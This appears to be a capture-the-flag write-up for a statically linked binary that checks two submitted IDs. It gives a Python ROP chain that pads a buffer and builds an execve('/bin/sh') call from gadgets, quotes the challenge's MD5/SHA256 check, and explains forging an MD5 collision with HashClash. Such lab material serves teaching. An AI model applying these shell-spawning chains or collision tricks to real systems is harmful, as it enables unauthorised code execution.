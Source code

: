 Since the binary is statically linked, this is simple.

```python
id1 = b"Hi, my name is Jangui. My card is my passport. Please verify me."
id1 = id1.ljust(280, b"A")
id1 += p64(0x4010dc)  # pop rsi; ret
id1 += p64(0x6c10e0)  # .data
id1 += p64(0x41c0c4)  # pop rax; ret
id1 += b"/bin/sh\x00"
id1 += p64(0x485ff1)  # mov QWORD PTR [rsi], rax; ret
id1 += p64(0x41c0c4)  # pop rax; ret
id1 += p64(59)        # sys_execve
id1 += p64(0x4006c6)  # pop rdi; ret
id1 += p64(0x6c10e0)  # .data
id1 += p64(0x4010dc)  # pop rsi; ret
id1 += p64(0)         # argv
id1 += p64(0x4502e5)  # pop rdx; ret
id1 += p64(0)         # env
id1 += p64(0x407bac)  # syscall
```

The length of the padding can be found with a debugger by subtracting the location of the return address from the argument to `read()`. We aren't done yet, though, because we still need to make two valid IDs.

```c
int validHashes(const char* buf1, const char* buf2, int bufLength){
    char md5hash1[MD5_DIGEST_LENGTH];
    MD5(buf1, bufLength, md5hash1);
    char md5hash2[MD5_DIGEST_LENGTH];
    MD5(buf2, bufLength, md5hash2);
    if (strncmp(md5hash1, md5hash2, MD5_DIGEST_LENGTH)){
        puts("MD5 hashes are not the same and should be!");
        return 0;
    }
    char sha256hash1[SHA256_DIGEST_LENGTH];
    SHA256(buf1, bufLength, sha256hash1);
    char sha256hash2[SHA256_DIGEST_LENGTH];
    SHA256(buf2, bufLength, sha256hash2);
    if (!strncmp(sha256hash1, sha256hash2,SHA256_DIGEST_LENGTH)){
        puts("SHA256 hashes are the same and should not be!");
        return 0;
    }
    return 1;
}
```

To satisfy these conditions, we need to make sure the MD5 hashes of the two IDs are the same, but the SHA256 hashes are not. MD5 is a very old hashing algorithm and it has been broken several times, whereas SHA256 is quite strong. Therefore, it should not be difficult to find an MD5 collision that is not a SHA256 collision.

Since there are many bytes of padding in the middle, we have plenty of space to generate a collision. Because of the way MD5 works, we can cause two different plaintexts to have the same hash by messing with a single block of 128 bytes in the middle. To do this we can use [HashClash](https://www.win.tue.nl/hashclash/).

